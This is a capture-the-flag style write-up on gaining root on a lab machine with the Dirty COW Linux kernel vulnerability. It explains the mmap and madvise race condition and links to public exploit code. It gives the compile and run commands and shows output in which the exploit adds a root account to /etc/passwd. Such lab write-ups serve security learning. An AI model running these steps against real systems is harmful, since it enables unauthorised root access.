 # Write Up 2

After some search on google for "gain root access linux hack"

This website "https://book.hacktricks.xyz/linux-unix/privilege-escalation" mentioned a CVE (Common Vulnerabilities and Exposures) called dirty cow CVE-2016-5195 (DirtyCow)

The CVE DirtyCow can be used to do "Linux Privilege Escalation" if the linux Kernel is a older version then 3.19.0-73.8

# Once upon a time there is famous vulnerability on linux called dirty cow.

```
Dirty COW (Dirty copy-on-write) is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018. It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem. Computers and devices that still use the older kernels remain vulnerable.

The vulnerability was discovered by Phil Oester.Because of the race condition, with the right timing, a local attacker can exploit the copy-on-write mechanism to turn a read-only mapping of a file into a writable mapping. Although it is a local privilege escalation, remote attackers can use it in conjunction with other exploits that allow remote execution of non-privileged code to achieve remote root access on a computer. The attack itself does not leave traces in the system log.

The vulnerability has the Common Vulnerabilities and Exposures designation CVE-2016-5195. Dirty Cow was one of the first security issues transparently fixed in Ubuntu by the Canonical Live Patch service.

The vulnerability has existed in the Linux kernel since version 2.6.22 released in September 2007, and there is information about it being actively exploited at least since October 2016. The vulnerability has been patched in Linux kernel versions 4.8.3, 4.7.9, 4.4.26 and newer.

The patch produced in 2016 did not fully address the issue and a revised patch was released on November 27, 2017, before public dissemination of the vulnerability.
```


source vulnerability : https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails

source forum : https://github.com/FireFart/dirtycow/blob/master/dirty.c
source github exploit : https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
source github code exploit : https://github.com/FireFart/dirtycow/blob/master/dirty.c

# Can we try the same technique ? -

I checked the kernel version to see if any vulnerability exist

check kernel version : `uname –r`

and we have : `3.2.0-91-generic-pae`

source check kernel version : https://phoenixnap.com/kb/check-linux-kernel-version

so this vulnerability does exsit

#  --------------------

from above resource, we have code in dirty.c like https://github.com/FireFart/dirtycow/blob/master/dirty.c

#  Explaination

Base on the explaination from this youtuber "https://www.youtube.com/watch?v=kEsshExn7aE"

The dirtyCow is using the race condition with 2 thread,

<h3>First thread</h3>

`map = mmap(NULL, st.st_size + sizeof(long), PROT_READ, MAP_PRIVATE, f, 0)`

nmap is the foundation of malloc which will set aside an allocated zone where the program could use to do data manipulation,

PROT_READ means that the memory is read only, but MAP_PRIVATE will allow the program to `copy-on-write` (COW) which will create a copy to write on, instead of writing directly on the data itself.

But copy of data will require some time, so this is the condition were the 2nd thread is trying to race on.

<h3>Second thread</h3>

`madvise(map, 100, MADV_DONTNEED)`

madvise is memory advice, which as the name suggest will give advice on how the memory will behave,

Here it advice that first 100 bytes is probably `Not needed` so it is available to be use.


Combining the 2 thread, what will normally happens is that we will make the program to do a write on the memory, which MAP_PRIVATE will cause a copy of the data to be created which will be used to write on,

Next `madvise` will mark the 1st 100bytes as `Not needed` so this allocated zone will be available to be use.

But on a rare case where the 2nd thread catched up on the 1st thread while it is creating a copy,

The copied data will be marked as `Not needed` and the 1st thread will write to the original read only data, instead of the copied data.

This will cause the file that normally could not be written on become overwritten, this completing the exploit

with this, we just have to compile it with : `gcc -pthread dirty.c -o dirty -lcrypt`

Now, just run the binary with `./dirty`, enter the password for new user, or leave it blank

Depending on the machine, this might take several minutes, so grab a coffee and wait the exploit to work :)

```console
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Since in the original c code, we use `firefart` as username
so now we can use this username and the password we just creacted : `su firefart` , we succsufully logged in
`whoami`
we have
`firefart`
use command id: `id`, we have:
`uid=0(firefart) gid=0(root) groups=0(root)`
we are root

restore the password:
`mv /tmp/passwd.bak /etc/passwd`

Now whe have another root access !! 🥳 🎉 🎉 🎉

